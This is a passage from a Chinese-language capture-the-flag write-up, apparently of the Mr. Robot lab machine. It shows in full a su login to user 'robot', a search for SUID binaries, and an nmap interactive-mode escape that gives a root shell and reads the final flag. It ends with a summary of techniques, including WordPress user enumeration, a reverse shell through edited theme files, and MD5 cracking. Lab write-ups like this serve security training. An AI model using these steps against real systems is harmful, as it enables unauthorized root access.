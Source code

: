 ```bash
daemon@linux:/$ su robot
su robot
Password: bcdefghijklmnopqrstuvwxyz

su: Authentication failure
daemon@linux:/$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$ 
```

## 提权到root

查找suid权限的文件

```
find / -perm -u=s -type f 2>/dev/null
```

发现 nmap

```
/usr/local/bin/nmap
```

利用 [简谈SUID提权 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/272617.html)

```bash
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap>  !sh
 !sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
cd /root
# ls
ls
firstboot_done	key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

# 总结

wpscan好用的

wordpress对应版本可以枚举用户名，后台提权方法可以是修改相关文件（反弹shell）再访问执行

hashcat 工具可能破解 MD5

nmap 具有 suid 权限可提权


